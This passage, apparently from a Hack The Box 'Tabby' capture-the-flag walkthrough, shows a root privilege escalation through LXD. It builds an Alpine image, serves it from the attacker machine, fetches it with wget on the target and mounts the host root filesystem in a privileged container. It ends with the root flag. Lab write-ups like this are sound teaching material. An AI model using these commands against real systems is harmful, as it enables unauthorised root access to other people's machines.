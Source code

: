 kali@kali:~/Tabby$ git clone https://github.com/saghul/lxd-alpine-builder
kali@kali:~/Tabby$ cd lxd-alpine-builder
kali@kali:~/Tabby$ ./build-alpine
kali@kali:~/Tabby/lxd-alpine-builder$ ls
alpine-v3.12-x86_64-20200905_0610.tar.gz  build-alpine  LICENSE  README.md
kali@kali:~/Tabby/lxd-alpine-builder$ python3 -m http.server 80
```

- Remote:

```
ash@tabby:~$ wget "http://10.10.14.113/alpine-v3.12-x86_64-20200905_0610.tar.gz"

# import the image
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200905_0610.tar.gz --alias myimage

# run the image, we had to init lxd
ash@tabby:~$ lxc init myimage mycontainer -c security.privileged=true
ash@tabby:~$ Error: No storage pool found. Please create a new storage pool
ash@tabby:~$ lxd init (accept all by default)
ash@tabby:~$ lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
ash@tabby:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/9_lxc.png" width="550"/>
</p>

Ladies and gentlemen, we got it.

```
cat root.txt
ca96ca67e69b372fc28398f701d0360e
```